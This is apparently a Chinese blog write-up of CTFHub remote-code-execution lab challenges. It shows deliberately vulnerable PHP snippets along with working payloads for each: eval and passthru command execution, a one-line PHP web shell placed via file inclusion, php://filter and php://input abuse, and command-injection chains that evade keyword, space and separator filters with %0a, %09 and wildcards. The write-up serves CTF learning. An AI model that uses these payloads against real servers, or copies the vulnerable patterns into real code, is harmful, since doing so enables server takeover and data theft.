 ﻿---
title: CTFHub RCE
categories: ctf题目
---
![](https://img-blog.csdnimg.cn/20210312225826493.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

<!--more-->
---
## eval执行

```bash
<?php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
?>
```
payload:
```
 ?cmd=passthru("cat /f*"); 
```
Cat 替换为tac nl等  passthru替换为system

---
## 文件包含

![](https://img-blog.csdnimg.cn/20210312225956810.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

 ### 文件包含
```bash
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
```

```
 如导入为非.php文件，则仍按照php语法进行解析，这是include()函数所决定的。
```

Shell.txt: <?php eval($_REQUEST['ctfhub']);?>

Payload: 
```
 ?file=shell.txt&ctfhub=passthru("tac /f*");
```

---
### php://input

```bash
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>

```

![](https://img-blog.csdnimg.cn/20210312230300261.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
### 读取源代码

```bash
<?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
```
Payload：
```
 ?file=php://filter/read/resource=/flag
```

---
### 远程包含

```bash
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
```
payload1：
```
 php://input
```

payload2:
```
 apache服务
```

---
## 命令注入
![](https://img-blog.csdnimg.cn/20210312230620561.png#pic_center)

### 命令注入

```bash
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/cat/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}

```

![](https://img-blog.csdnimg.cn/20210312230649827.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210312230714783.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210312230739585.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
查看源码即可

---
### 过滤cat
Tac nl more less替代

---
### 过滤空格

![](https://img-blog.csdnimg.cn/20210312230957818.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
### 过滤目录分隔符 /

利用 `inode`

![](https://img-blog.csdnimg.cn/20210312231023326.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
payload1 :
```
 ;ls -i
 ;cd `find -inum 397442`;ls -i
 ;cd `find -inum 397442`;ls -i;tac `find -inum 397443`
```

payload2:
```
 ;ls
 ;cd flag_is_here;ls
 ;cd flag_is_here;tac flag_233082532526797.php
```

---
### 过滤运算符
```bash
if (!preg_match_all("/(\||\&)/", $ip, $m)) {
```
过滤了 `| ，&` 而已
跟上面一样 `;`

---
### 综合过滤练习

```bash
 if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
```

![](https://img-blog.csdnimg.cn/20210312231421209.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
`%0a`绕过运算符

![](https://img-blog.csdnimg.cn/20210312231447697.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
`%0a 代替 换行` ， `%09 代替 TAB键` （因为flag被过滤了，所以我们通过TAB来补全flag_is_here）

 `%5c 代替 \`（用 \ 来分隔开 cat ，因为 cat 也被过滤了）

payload:
```
%0als#
%0acd%09*ag_is_here%0anl%09*ag_51091243123891.php#
```

 
